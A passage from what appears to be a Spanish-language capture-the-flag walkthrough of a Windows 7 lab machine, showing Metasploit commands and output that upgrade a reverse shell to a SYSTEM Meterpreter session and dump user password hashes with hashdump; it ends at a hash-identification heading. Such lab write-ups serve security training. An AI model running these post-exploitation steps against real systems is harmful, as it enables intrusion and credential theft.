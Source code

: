 Cuando establezcamos el ID de sesión del exploit de CVE lo iniicaremos.

```bash
msf6 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 7
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.18.27.194:4433 
[*] Post module execution completed
```

Nos salimos dejando la sesion en background con Control+Z

Ahora si miramos las sesiones deberián de haber las dos sesiones creadas

```bash
msf6 post(multi/manage/shell_to_meterpreter) > sessions

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  7         shell x64/windows        Shell Banner: Microsoft Windows [Vers  10.18.27.194:4444 -> 10.10.53.172:4926
                                     ion 6.1.7601] Copyright (c) 2009 Micr  6 (10.10.53.172)
                                     os...
  8         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC           10.18.27.194:4433 -> 10.10.53.172:4926
                                                                            8 (10.10.53.172)
```

Sabiendo el ID de la sesión, como vemos a continuación podemos reconectarnos a la sesión que queramos, en este caso a Meterpreter.

```bash
msf6 post(multi/manage/shell_to_meterpreter) > sessions -i 8
```

## HASHDUMP

En la sesión de Meterpreter utilizamos ‘hashdump’ para sacar el hash de las contraseña de los usuarios.

```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
**Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::**
```

## Desencriptación de hash

### HASH-IDENTIFIER
